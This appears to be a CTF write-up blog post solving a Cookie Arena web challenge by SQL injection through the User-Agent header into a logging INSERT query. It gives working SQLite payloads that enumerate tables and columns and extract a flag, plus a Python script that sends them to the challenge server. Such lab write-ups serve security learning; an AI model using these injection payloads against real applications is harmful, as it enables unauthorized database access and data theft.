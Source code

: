```yaml
---
title: Logger Middleware
author: lehai
date: 2023-12-12 14:10:00 +0800
categories: [web]
tags: [web,ctf,write-up]
image:
  path: /assets/img/favicons/cookiearena.png
---
```


## Logger Middleware

#### By @es

[Address challenge](https://battle.cookiearena.org/challenges/web/logger-middleware)
The goal of this challenge is to query the hidden data in database(Flag)

### Chanllenge Details
- Format flag:CHH{XXX}
- Web
- SQL Injection
### Web Analysis
This website has the function of recording user logs

![](/assets/img/writeup/Logger-Middleware/1.png)

To save the log into the database, we guess the query command will be insert into

Looking at the http header, the <b style="color:red">User-Agent</b> is untrusted. Because other headers such as cookie, host, if adjusted, will lead to transmission errors causing us to disconnect from the website.

![](/assets/img/writeup/Logger-Middleware/2.png)

 Add a ' or " sign after the User-Agent value to determine which quotation marks should be used in the query

 The website prints an error that helps us determine the website's query

![](/assets/img/writeup/Logger-Middleware/3.png)

This is the website's query

<b> INSERT INTO logger (ip_address, user_agent, referer, url, cookie, created_at) VALUES ('***', 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0'', 'None', 'http://103.97.125.56:31292/', 'None', '2024-04-08 01:19:08.677431')</b>

<b>FIND_TABLE</b>: test',(SELECT GROUP_CONCAT(name) FROM sqlite_master WHERE type='table' AND name NOT LIKE 'sqlite_%'),null,null,null) -- '

![](/assets/img/writeup/Logger-Middleware/4.png)

<b>FIND_COLUMNS</b>: test',(SELECT GROUP_CONCAT(name) FROM pragma_table_info('flag')),null,null,null)  -- '

![](/assets/img/writeup/Logger-Middleware/5.png)

<b>FIND_FLAG</b>: test',(SELECT secr3t_flag FROM flag),null,null,null)  -- '

![](/assets/img/writeup/Logger-Middleware/6.png)

I wrote a piece of python code to exploit the challenge

```python
import requests
from bs4 import BeautifulSoup

PAYLOADS = {
    'FIND_TABLE':"test',(SELECT GROUP_CONCAT(name) FROM sqlite_master WHERE type='table' AND name NOT LIKE 'sqlite_%'),null,null,null) -- '",
    'FIND_COLUMNS':"test',(SELECT GROUP_CONCAT(name) FROM pragma_table_info('flag')),null,null,null)  -- '",
    'FIND_FLAG':"test',(SELECT secr3t_flag FROM flag),null,null,null)  -- '"
}
url="http://103.97.125.56:31292/"
for key, value in PAYLOADS.items():
    headers = {"User-Agent": value}
    print("Testing: ",headers)
    r = requests.get(url, headers=headers)
    data = r.text 
    soup = BeautifulSoup(data, 'html.parser')
    td_element = soup.find_all('td')[2] 
    data = td_element.get_text()
    print(key,": ",data)

    
```

![](/assets/img/writeup/Logger-Middleware/7.png)

## Thanks for watching !!!
